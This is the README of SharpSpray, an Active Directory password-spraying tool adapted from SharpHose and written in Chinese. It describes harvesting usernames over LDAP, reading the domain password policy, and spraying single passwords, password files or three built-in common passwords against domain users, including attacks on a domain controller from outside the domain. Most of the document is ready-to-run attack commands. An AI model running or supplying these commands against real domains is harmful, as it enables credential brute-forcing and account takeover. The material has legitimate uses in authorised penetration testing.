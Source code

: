 # SharpSpray

这是一个域内的密码喷射攻击工具，能通过ldap收集用户名，并根据密码设置策略进行自动域内的密码喷射攻击。SharpSpray是对SharpHose项目进行改造实现的，解决了原项目中无法在域外爆破、无法进行批量密码爆破等问题，并内置了三个域内高频率口令。

## feature

* 通过LDAP自动查找用户来进行喷射

* 根据密码策略自动喷射
* 多线程喷射，速度较快
* 能在域外对域控进行喷射

## Usage

```
Examples:
Domain Joined Spray: SharpSpray.exe --action SPRAY_USERS --spraypassword Aa123456789.
Domain Joined Spray w/ Exclusions: SharpSpray.exe --action SPRAY_USERS --auto
Domain Joined Spray w/ Exclusions: SharpSpray.exe --action SPRAY_USERS --passfile c:\test.txt
Non-Domain Joined Spray: SharpSpray.exe  --dc-ip 172.16.178.9 --domain windows.local --username test --password Aa123456789. --action SPRAY_USERS --spraypassword Aa123456789.
Domain Joined Show Policies: SharpSpray.exe --action GET_POLICIES
Domain Joined Show Policy Users: SharpSpray.exe --action GET_POLICY_USERS --policy windows
Domain Joined Show All Users: SharpSpray.exe --action GET_ENABLED_USERS
```

### 策略发现

在使用之前可以先通过GET_POLICIES来获取当前密码策略和域内总用户数，避免用户数目过大导致服务器崩溃。

`SharpSpray.exe --action GET_POLICIES`

![image-20220317144358574](./README/image-20220317144358574.png)

### 密码喷射攻击（三种喷射模式）

`SharpSpray.exe --action SPRAY_USERS --spraypassword Aa123456789.`只爆破一个密码

`SharpSpray.exe --action SPRAY_USERS --auto` 此命令会自动爆破域内所有用户的1234qwer!@#$、1qaz@WSX1qaz、QAZwsxEDC这三个高频密码。

`SharpSpray.exe --action SPRAY_USERS --passfile c:\test.txt`爆破一个密码本

![image-20220317144519539](./README/image-20220317144519539.png)

### 域外对域控进行密码喷射攻击

`SharpSpray.exe  --dc-ip 172.16.178.9 --domain windows.local --username test --password Aa123456789. --action SPRAY_USERS --spraypassword Aa123456789.`

